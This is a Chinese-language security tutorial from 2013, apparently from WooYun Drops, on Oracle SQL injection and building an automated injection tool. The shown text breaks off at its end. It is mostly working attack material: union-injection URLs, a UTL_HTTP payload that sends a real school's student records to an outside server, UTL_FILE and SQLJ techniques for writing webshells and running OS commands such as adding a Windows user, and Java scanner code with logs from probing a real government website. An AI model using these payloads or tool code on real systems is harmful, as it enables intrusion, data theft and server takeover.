# 攻击 JavaWeb 应用[4]-SQL 注入[2]

2013/07/18 17:23 | [园长](http://drops.wooyun.org/author/园长 "由 园长 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

#### 注:这一节主要是介绍 Oracle 和 SQL 注入工具相关，本应该是和前面的 Mysql 一起但是由于章节过长了没法看，所以就分开了。

### 0x00 Oracle

* * *

Oracle Database，又名 Oracle RDBMS，或简称 Oracle。是甲骨文公司的一款关系数据库管理系统。

Oracle 对于 MYSQL、MSSQL 来说意味着更大的数据量，更大的权限。这一次我们依旧使用上面的代码，数据库结构平移到 Oracle 上去，数据库名用的默认的 orcl，字段"corps_desc" 从 text 改成了 VARCHAR2(4000)，JSP 内的驱动和 URL 改成了对应的 Oracle。
 

Jsp 页面代码：



开始注入：

`Union +order by` 永远都是最快捷最实用的，而盲注什么的太费时费力了。

依旧提交 order by 去猜测显示当前页面所用的 SQL 查询了多少个字段，也就是确认查询字段数。

分别提交`http://localhost/SqlInjection/index.jsp?id=1 AND 1=1` 和`?id=1 AND 1=12` 得到的页面明显不一致，1=12 页面没有任何数据，即 1=12 为 false 没查询到任何结果。



```
http://localhost/SqlInjection/index.jsp?id=1 AND 1=12 
```



提交：`http://localhost/SqlInjection/index.jsp?id=1 ORDER BY 4--` 页面正常，提交：`?id=1 ORDER BY 5--`报错说明字段数肯定是 4。

`Order by 5`爆出的错误信息：



#### 使用 union 进行联合查询：

##### Oracle 的 dual 表：

dual 是一个虚拟表，用来构成 select 的语法规则，oracle 保证 dual 里面永远只有一条记录，在 Oracle 注入中用途可谓广泛。

##### Oracle union 查询 tips:

Oracle 在使用 union 查询的跟 Mysql 不一样 Mysql 里面我用 1,2,3,4 就能占位，而在 Oracle 里面有比较严格的类型要求。也就是说你`union select`的要和前面的

```
SELECT * from "corps" where "id" = 1 
```

当中查询的字段类型一致。我们已知查询的第二个字段是 corps_name，对应的数据类型是：VARCHAR2(100)，也就是字符型。当我们传入整型的数字时就会报错。比如当我们提交 union 查询时提交如下 SQL 注入语句：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT 1,2,NULL,NULL FROM dual-- 
```



Oracle 当中正确的注入方式用 NULL 去占位在我们未知哪个字段是什么类型的时候：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT NULL,NULL,NULL,NULL FROM dual-- 
```

当已知第一个字段是整型的时候：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT 1,NULL,NULL,NULL FROM dual-- 
```

SQL 执行后的占位效果：



根据我们之前注入 Mysql 的经验，我们现在要尽可能多的去获取服务器信息和数据库，比如数据库版本、权限等。

在讲 Mysql 注入的时候已经说道要合理利用工具，在 Navicat 客户端执行`select * from session_roles`结果：



##### Oracle 查询分页 tips：

不得不说 Oracle 查询分页的时候没有 Mysql 那么方便，Oracle 可不能 limit 0,1 而是通过三层查询嵌套的方式实现分页(查询第一条数据“>=0<=1”取交集不就是 1 么？我数学 5 分党，如果有关数学方面的东西讲错了各位莫怪)：

```
SELECT * FROM ( SELECT A.*, ROWNUM RN FROM (select * from session_roles) A WHERE ROWNUM <= 1 ) WHERE RN >= 0 
```



在 Oracle 里面没有类似于 Mysql 的 group_concat,用分页去取数据，不过有更加简单的方法。

##### 用 UNION SELECT 查询：

```
http://localhost/SqlInjection/index.jsp?id=1 UNION ALL SELECT NULL, NULL, NULL, NVL(CAST(OWNER AS VARCHAR(4000)),CHR(32)) FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)-- 
```



不过我得告诉你，UNION SELECT 查询返回的是多个结果，而在正常的业务逻辑当中我们取一条新闻是直接放到对应的实体当中的，比如我们查询的 wooyun 的厂商表：corps，那么我们做查询的很有可能是抽象出一个 corps 对象，在 DAO 层取得到单个的参数结果集，如果有多个要么报错，要么取出第一条。然后再到 controller 层把查询的结果放到请求里面。最终在输出的时候自然也就只能拿到单个的 corps 实体，这也是视图层只做展示把业务逻辑和视图分开的好处之一，等讲到 MVC 的时候试着给不懂的朋友解释一下。

再来看一下我们丑陋的在页面展示数据的代码：



接下来的任务就是收集信息了，上面我们已经收集到数据库所有的用户的用户名和我们当前用户的权限。

获取所有的数据库表：

```
http://localhost/SqlInjection/index.jsp?id=1 UNION ALL SELECT NULL, NULL, NULL, NVL(CAST(OWNER AS VARCHAR(4000)),CHR(32))||CHR(45)||CHR(45)||CHR(45)||CHR(45)||CHR(45)||CHR(45)||NVL(CAST(TABLE_NAME AS VARCHAR(4000)),CHR(32)) FROM SYS.ALL_TABLES WHERE OWNER IN (CHR(67)||CHR(84)||CHR(88)||CHR(83)||CHR(89)||CHR(83),CHR(69)||CHR(88)||CHR(70)||CHR(83)||CHR(89)||CHR(83),CHR(77)||CHR(68)||CHR(83)||CHR(89)||CHR(83),CHR(79)||CHR(76)||CHR(65)||CHR(80)||CHR(83)||CHR(89)||CHR(83),CHR(83)||CHR(67)||CHR(79)||CHR(84)||CHR(84),CHR(83)||CHR(89)||CHR(83),CHR(83)||CHR(89)||CHR(83)||CHR(84)||CHR(69)||CHR(77),CHR(87)||CHR(77)||CHR(83)||CHR(89)||CHR(83))— 
```

连接符我用的是-转换成编码也就是 45



已列举出所有的表名：



当 UNION ALL SELECT 不起作用的时候我们可以用上面的 Oracle 分页去挨个读取，缺点就是效率没有 UNION ALL SELECT 高。

信息版本获取：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT NULL, NULL, NULL, (select banner from sys.v_$version where rownum=1) from dual— 
```



获取启动 Oracle 的用户名:

```
select SYS_CONTEXT ('USERENV','OS_USER') from dual; 
```

服务器监听 IP:

```
select utl_inaddr.get_host_address from dual; 
```

服务器操作系统:

```
select member from v$logfile where rownum=1; 
```

当前连接用户:

```
select SYS_CONTEXT ('USERENV', 'CURRENT_USER') from dual; 
```

获取当前连接的数据库名：

```
select SYS_CONTEXT ('USERENV', 'DB_NAME') from dual; 
```

关于获取敏感的表和字段说明：

1、获取所有的字段 schema：

```
select * from user_tab_columns 
```

2、获取当前用户权限下的所有的表：

```
SELECT * FROM  User_tables 
```

上述 SQL 通过添加 Where 条件就能获取到常见注入的敏感信息，请有心学习的同学按照上面的 MYSQL 注入时通过 information_schema 获取敏感字段的方式去学习 user_tab_columns 和 FROM  User_tables 表。





#### Oracle 高级注入：

##### 1、友情备份

在讲 Mysql 的时候提到过怎么在注入点去构造 SQL 语句去实现友情备份，在去年注入某大牛学校的教务处的时候我想到了一个简单有效的 SQL 注入点友情备份数据库的方法。没错就是利用 Oracle 的 utl_http 包。Oracle 的确是非常的强大，utl_http 就能过直接对外发送 Http 请求。我们可以利用 utl_http 去 SQL 注入，那么我们一样可以利用 utl_http 去做友情备份。

构建以下 SQL 注入语句：

```
http://60.xxx.xx.131/xxx/aao_66/index.jsp?fid=1+and+'1'in(SELECT+UTL_HTTP.request('http://xxx.cn:8080/xxxx/mysql.jsp?data='||ID||'----'||USERID||'----'||NAME||'----'||RELATION||'----'||OCCUPATION||'----'||POSITION||'----'||ASSN||UNIT||'----'||'----'||TEL)+FROM+STU_HOME) 
```

UTL_HTTP 会带着查询数据库的结果去请求我们的 URL，也就是我注入点上写的 URL。Tips：UTL_HTTP 是一条一条的去请求的，所以会跟数据库保持一个长连接。而数据量过大的话会导致数据丢失，如果想完整的友情备份这种方法并不是特别可行。只用在浏览器上请求这个注入点 Oracle 会自动的把自己的裤子送上门来那种感觉非常的好。



使用 UTL_HTTP 友情备份效果图：



utl_http 在注入的时候怎么去利用同理，由于我也没有去深入了解 utl_http 或许他还有其他的更实用的功能等待你去发现。

##### 使用 UTL_FILE 友情备份：

创建目录：

```
create or replace directory cux_log_dir as 'E:/soft/apache-tomcat-7.0.37/webapps/ROOT/selina'; 
```

导出数据到文件：

```
declare
    frw   utl_file.file_type;
    begin
        frw:=utl_file.fopen('CUX_LOG_DIR','emp.txt','w');
        for rec in (select * from admin) loop
            utl_file.put_line(frw,rec.id||','||rec.password);
        end loop;
        utl_file.fclose(frw);
    end;
/ 
```

效果图：



##### GetShell

之前的各种 Oracle 文章似乎都提过怎样去 getshell，其实方法倒是有的。但是在 Java 里面你要想拿到 WEB 的根路径比那啥还难。但是 PHP 什么的就不一样了，PHP 里面爆个路径完全是家常便饭。因为数据库对开发语言的无关系，所以或许我们在某些场合下以下的 getshell 方式也是挺不错的。

在有 Oracle 连接权限没有 webshell 时候通过 utl_file 获取 shell

（当然用户必须的具有创建 DIRECTORY 的权限）:



执行：

```
create or replace directory getshell_dir as 'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/'; 
```

当然了 as 后面跟的肯定是你的 WEB 路径。

执行以下 SQL 语句：

创建目录：

```
create or replace directory getshell_dir as 'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/'; 
```

写入 shell 到指定目录：注意 directory 在这里一定要大写:

```
declare
    frw   utl_file.file_type;
    begin
        frw:=utl_file.fopen('GETSHELL_DIR','yzmm.jsp','w');
        utl_file.put_line(frw,'hello world.');
        utl_file.fclose(frw);
    end;
/ 
```



在低权限下 getshell：



执行以下 SQL 创建表空间：

```
create tablespace shell datafile 'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/shell.jsp' size 100k nologging ;
CREATE TABLE SHELL(C varchar2(100)) tablespace shell;
insert into SHELL values('hello world');
commit;
alter tablespace shell offline;
drop tablespace shell including contents; 
```

这方法是能写文件，但是好像没发现我的 hello world，难道是我打开方式不对？

Oracle SQLJ 编译执行 Java 代码：

众所周知，由于 sun 那只土鳖不争气居然被 oracle 给收购了。

不过对 Oracle 来说的确是有有不少优势的。

SQLJ 是一个与 Java 编程语言紧密集成的嵌入式 SQL 的版本，这里"嵌入式 SQL"是用来在其宿主通用编程语言如 C、C++、Java、Ada 和 COBOL）中调用 SQL 语句。SQL 翻译器用 SQLJ 运行时库中的调用来替代嵌入式 SQLJ 语句，该运行时库真正实现 SQL 操作。这样翻译的结果是得到一个可使用任何 Java 翻译器进行编译的 Java 源程序。一旦 Java 源程序被编译，Java 执行程序就可在任何数据库上运行。SQLJ 运行环境由纯 Java 实现的小 SQLJ 运行库（小，意指其中包括少量的代码）组成，该运行时库转而调用相应数据库的 JDBC 驱动程序。

SQLJ 可以这样玩：首先创建一个类提供一个静态方法：



其中的 getShell 是我们的方法名，p 和才是参数，p 是路径，而 c 是要写的文件内容。在创建 Java 存储过程的时候方法类型必须是静态的 static

执行以下 SQL 创建 Java 储存过程：

```
create or replace and compile
java source named "getShell"
as public class GetShell {public static int getShell(String p, String c) {int RC = -1;try {new java.io.FileOutputStream(p).write(c.getBytes());RC = 1;} catch (Exception e) {e.printStackTrace();}return RC;}} 
```

创建函数：

```
create or replace
function getShell(p in varchar2, c in varchar2) return number
as
language java
name 'util.getShell(java.lang.String, java.lang.String) return Integer'; 
```

创建存储过程：

```
create or replace procedure RC(p in varChar, c in varChar)
as
x number;
begin
x := getShell(p,c);
end; 
```

授予 Java 权限：

```
variable x number;
set serveroutput on;
exec dbms_java.set_output(100000);
grant javasyspriv to system;
grant javauserpriv to system; 
```

写 webshell：

```
exec :x:=getShell('d:/3.txt','selina'); 
```



##### SQLJ 执行 cmd 命令：

方法这里和上面几乎大同小异，一样的提供一个静态方法，然后去创建一个存储过程。然后调用 Java 里的方法去执行命令。

创建 Java 存储过程:

```
create or replace and compile java source named "Execute" as   
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Execute {
    public static void executeCmd(String c) {
        try {
            String l="",t;
            BufferedReader br = new BufferedReader(new InputStreamReader(java.lang.Runtime.getRuntime().exec(c).getInputStream(),"gbk"));
            while((t=br.readLine())!=null){
                l+=t+"\n";
            }
            System.out.println(l);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
} 
```

创建存储过程 executeCmd：

```
create or replace procedure executeCmd(c in varchar2)
as
language java name 'Execute.executeCmd(java.lang.String)'; 
```

执行存储过程：

```
exec executeCmd('net user selina 123 /add'); 
```



上面提供的命令执行和 getshell 创建方式对换一下就能回显了，如果好不清楚怎么让命令执行后回显可以参考：

[`hi.baidu.com/xpy_home/item/09cbd9f3fd30ef0585d27833`](http://hi.baidu.com/xpy_home/item/09cbd9f3fd30ef0585d27833)

一个不错的 SQLJ 的 demo（犀利的 oracle 注入技术）。

[`huaidan.org/archives/2437.html`](http://huaidan.org/archives/2437.html)

### 0x01 自动化的 SQL 注入工具实现

* * *

通过上面我们对数据库和 SQL 注入的熟悉，现在可以自行动手开发注入工具了吧？

很久以前非常粗糙的写了一个 SQL 注入工具类，就当作 demo 给大家做个演示了。

仅提供核心代码，案例中的 gov 网站请勿非常攻击！

简单的 SQL Oder by 注入实现的方式核心代码：

1、分析

```
URLpublic static void AnalysisUrls(String site) throws Exception 
```

这个方法主要是去分析 URL 的组成是否静态化等。

2、检测是否存在：

这个做的粗糙了些，只是通过请求提交不同的 SQL 注入语句去检测页面返回的情况：

```
/**
     * 分析 SQL 参数是否存在注入
     * @param str
     */
    public static void  AnalysisUrlDynamicParamSqlInjection(String str[]) {
        Map<String,Object> content,content2;
        sqlKey = new ArrayList<Object>();
        content = HttpHelper.sendGet(protocol+"://"+schema+":"+port+"/"+filesIndex+"/"+file,parameter);//原始的请求包
        int len1 = content.get("content").toString().length();//原始请求的 response 长度
        boolean typeIsNumber = false;
        String c1[] = {"'","-1",")\"\"\"\"\"()()",")+ANd+3815=3835+ANd+(1471=1471",") ANd+9056=9056+ANd+(9889=9889"," ANd+6346=6138 "," ANd+9056=9056"};//需要检查的对象
        for (int i = 0; i < str.length; i++) {
            typeIsNumber = StringUtil.isNotEmpty(str[i].split("="))&&StringUtil.isNum(str[i].split("=")[1])?true:false;
            for (int j = 0; j < c1.length; j++) {
                content2 = HttpHelper.sendGet(protocol+"://"+schema+":"+port+"/"+filesIndex+"/"+file,parameter.replace(str[i], str[i].split("=")[0]+"="+str[i].split("=")[1]+c1[j]));
                if (len1 != content2.get("content").toString().length()||(Integer)content2.get("status")!=200) {
                    existsInjection = true;
                    sqlKey.add(str[i]);
                    break ;
                }
            }
        }
        if (existsInjection) {
//              System.out.println(existsInjection?"Site:"+url+" 可能存在"+(typeIsNumber?"int":"String")+"型 Sql 注入"+"SQL 注入.":"Not Found.");
            getSelectColumnCount(str);
            getDatabaseInfo();
        }
    } 
```

检测过程主要发送了几次请求，一次正常的请求和 N 次带有 SQL 注入的请求。如果 SQL 注入的请求和正常请求的结果不一致（有不可控因素，比如 SQLMAP 的实现方式就有去计算页面是否稳定，从而让检测出来的结果更加准确）就可能是存在 SQL 注入。

日志如下：

```
url:http://www.tchjbh.gov.cn:80//news_display.php
param:id=148
url:http://www.tchjbh.gov.cn:80//news_display.php
param:id=148'
url:http://www.tchjbh.gov.cn:80//news_display.php
param:id=148 
```

获取字段数主要是通过：

```
/**
     * 获取查询字段数
     * @param str
     */
    public static int getSelectColumnCount(String str[]){
        Map<String,Object> sb = HttpHelper.sendGet(protocol+"://"+schema+":"+port+"/"+filesIndex+"/"+file,parameter);//原始的请求包
        int len1 = sb.get("content").toString().length();//原始请求的 response 长度
        int count = -1;
        for (Object o : sqlKey) {
            count = getSbCount(o.toString(), len1);//计算字段
        }
        return count;
    }

/**
     *获取 order by 字段数
     * @param key
     * @param len1
     * @return
     */
    public static int getSbCount(String key,int len1){
        System.out.println("-----------------------end:"+end+"-----------------------------");
        Map<String,Object> sb = HttpHelper.sendGet(uri, parameter.replace(key, key+"+orDer+By+"+end+"+%23"));
        if (1 == end|| len1==((String)sb.get("content")).length()&&200==(Integer)sb.get("status")) {
            System.out.println("index:"+end);
            start = end;
            for (int i = start; i < 2*start+1; i++) {
                System.out.println("************开始精确匹配*****************");
                Map<String,Object> sb2 = HttpHelper.sendGet(uri, parameter.replace(key, key+"+orDer+By+"+end+"+%23"));
                Map<String,Object> sb3 = HttpHelper.sendGet(uri, parameter.replace(key, key+"+orDer+By+"+(end+1)+"+%23"));
                if (((String)sb3.get("content")).length()!=((String)sb2.get("content")).length()&&200==(Integer)sb2.get("status")) {
                    System.out.println("order by 字段数为:"+end);
                    sbCount = end;//设置字段长度为当前检测出来的长度
                    return index = end;
                }else {
                    end++;
                }
            }
        }else {
            end = end/2;
            getSbCount(key, len1);
        }
        return index;
    } 
```

利用检测是否存在 SQL 注入的原理同样能过检测出查询的字段数。我们通过二分去 order 一个 by 一个数然后去请求分析页面一致性。然后不停的去修改数值最终结果相等即可获得字段数。上面的分析的代码挺简单的，有兴趣的同学自己去看。日志如下：

```
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+15+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+16+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+16+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+17+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+17+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+18+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+18+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+19+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+19+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+20+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+20+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+21+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+21+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+22+%23
order by 字段数为:21
skey:id=148 
```

在知道了字段数后我们就可以通过构建关键字的方式去获取 SQL 注入查询的结果，我们的目的无外乎就是不停的递交 SQL 注入语句，把我们想要得到的数据库的信息展示在页面，然后我们通过自定义的关键字去取回信息到本地：

```
/**
     * 测试，获取数据库表信息
     */
    public static void getDatabaseInfo(){
        String skey = sqlKey.get(0).toString();
        System.out.println("skey:"+skey);
        StringBuilder union = new StringBuilder();
        for (int i = 0; i < sbCount; i++) {
            union.append("concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),");
        }
        Map<String,Object> sb = HttpHelper.sendGet(uri, parameter.replace(skey, skey+("-1+UnIon+SeleCt+"+(union.delete(union.length()-1, union.length()))+"%23")));
        String rs = ((String)sb.get("content"));
        String user = rs.substring(rs.lastIndexOf("[user]")+6,rs.lastIndexOf("[/user]"));
        String version = rs.substring(rs.lastIndexOf("[version]")+9,rs.lastIndexOf("[/version]"));
        String database = rs.substring(rs.lastIndexOf("[database]")+10,rs.lastIndexOf("[/database]"));
        System.err.println("user:"+user);
        System.err.println("version:"+version);
        System.err.println("database:"+database);
    } 
```

代码执行的日志：

```
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148-1+UnIon+SeleCt+concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]')%23
user:tchjbh@127.0.0.1
version:5.1.56-community
database:tchjbh 
```

### 0x02 模拟 SQL 注入分析注入工具原理

* * *

下面这个演示是针对想自己拓展上面写的 SQL 注入工具的同学。这次我才用的是 PHP 语言去弄清 SQL 注入工具的具体实现。数据库采用的是 wordpress 的结构，数据库结构如下,建议在本地先安装好 wordpress 任意版本：



代码如下：

```
<!DOCTYPE html>
<html >
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gbk" />
<style>
    .main{margin:0 auto;width:980px;border:1px dashed }
    .title{line-height:25px; text-align:center; font-size:18px; font-weight:500}
    pre{text-indent: 2em; margin:20px auto 10px 20px;}
</style>
<title></title>
</head>
<body>
<div class="main">
<?php
    extract($_GET);//to Map
    if(!empty($id)){
        $con = mysql_connect("localhost","root","111111");//连接数据库
        $db_selected = mysql_select_db("wps",$con);//选择数据库
        mysql_query("SET NAMES 'GBK'"); //设置编码
        $sql = "SELECT * from wps_posts where ID = ".$id;//查询文章语句
        echo  "<font color=red>".$sql."</font>";//打印 SQL

        /*截取 SQL 注入工具的 SQL*/
         $paths="getsql.txt";//定义要生成的 html 路径
         $handles=fopen($paths,"a");//以可写方式打开路径
         fwrite($handles,$sql."\t\t\n\n\n");//写入内容
         fclose($handles);//关闭打开的文件

        $result = mysql_query($sql,$con);//执行查询
        /*结果遍历*/
        while ($row=mysql_fetch_array($result)) {
            echo  "<div class=title>".$row['post_title']."</div>";//把结果输出到界面
            echo  "<pre>".$row['post_content']."</pre>";//文章内容
        }
        mysql_close($con);//关闭数据库连接
    }
?>
</div>
</body>
</html> 
```

建立好数据库和表之后访问（由于我采用的是自己的 wp 博客，所有有大量的测试数据如果没有数据建议安装个 wordpress 方便以后的测试）：



SQL 注入测试：



让我们来看下 m4xmysql 究竟在 SQL 注入点提交了那些数据,点击 start 我们的 PHP 程序会自动在同目录下生成一个 getsql.txt 打开后发现我们截获到如下 SQL：





看起来不算多，因为我没有自动换行，以上是在获取数据库相关信息。

让我来带着大家翻译这些 SQL 都做了些什么：

```
/*检测该 URL 是否存在 SQL 注入*/
SELECT * from wps_posts where ID = 739 and 1=0      
SELECT * from wps_posts where ID = 739 and 1=1      

/*这条 sql 开始查询的字段数，请注意是查询的字段数而不是表的字段数！*/

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d)--

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d),concat(0x5b68345d,1,0x5b2f68345d)--       

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d),concat(0x5b68345d,1,0x5b2f68345d),concat(0x5b68345d,2,0x5b2f68345d)--     
/*........................省去其中的无数次字段长度匹配尝试................................*/

/*匹配出来 SELECT * from wps_posts where ID = 739 一共查询了 10 个字段*/
/*那么他是怎么判断出字段数 10 就是查询的长度的呢？答案很简单提交以下 SQL 占位 10 个页面显示正常而前面提交的都错误所以得到的数量自然就是 10 了。获取请求的 http status 或许应该就行了*/

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d),concat(0x5b68345d,1,0x5b2f68345d),concat(0x5b68345d,2,0x5b2f68345d),concat(0x5b68345d,3,0x5b2f68345d),concat(0x5b68345d,4,0x5b2f68345d),concat(0x5b68345d,5,0x5b2f68345d),concat(0x5b68345d,6,0x5b2f68345d),concat(0x5b68345d,7,0x5b2f68345d),concat(0x5b68345d,8,0x5b2f68345d),concat(0x5b68345d,9,0x5b2f68345d),concat(0x5b68345d,10,0x5b2f68345d),concat(0x5b68345d,11,0x5b2f68345d),concat(0x5b68345d,12,0x5b2f68345d),concat(0x5b68345d,13,0x5b2f68345d),concat(0x5b68345d,14,0x5b2f68345d),concat(0x5b68345d,15,0x5b2f68345d),concat(0x5b68345d,16,0x5b2f68345d),concat(0x5b68345d,17,0x5b2f68345d),concat(0x5b68345d,18,0x5b2f68345d),concat(0x5b68345d,19,0x5b2f68345d),concat(0x5b68345d,20,0x5b2f68345d),concat(0x5b68345d,21,0x5b2f68345d),concat(0x5b68345d,22,0x5b2f68345d)-- 
```

以上的 SQL 完成了注入点（`http://localhost/Test/1.php?id=739`执行的`SELECT * from wps_posts where ID = 739`）的类型、是否存在和字段数量的检测   里面有许多的 0x5b2f68345d 转换过来其实就是占位符，为了让工具扒下源代码后能够在页面类找到具有特殊意义的字符并进行截取：



如果你足够聪明或仔细会发现他这样写有点浪费资源，因为他的 order 是从 1 一直递增到争取的长度的假如字段特别长（一般情况下还是很少出现的）可能要执行几十个甚至是更多的 HTTP 请求，如果这里使用二分法或许可以很好的解决吧。

我们接着往下看（还是点击 start 后发送的请求）：

```
/*获取数据库相关信息*/
SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d)-- 
```

这玩意到底是什么神秘的东西呢？我们不妨在 Navicat 和 FireFox 里面瞅瞅：



FireFox 执行的结果：


让我们来还原上面的那句废话：

```
select file_priv from mysql.user where user=root 
```



上面很长很臭的 SQL 翻译过来就这么短的一句查询的结果就一个得到的信息就是：

有没有 file_priv 权限。而 file_priv 应该就是文件读写权限了（没看手册，应该八九不离十）。如果不是 Y 是 N 那就不能 load_file 、into outfile、dumpfile 咯。

接着看下一条 SQL：

```
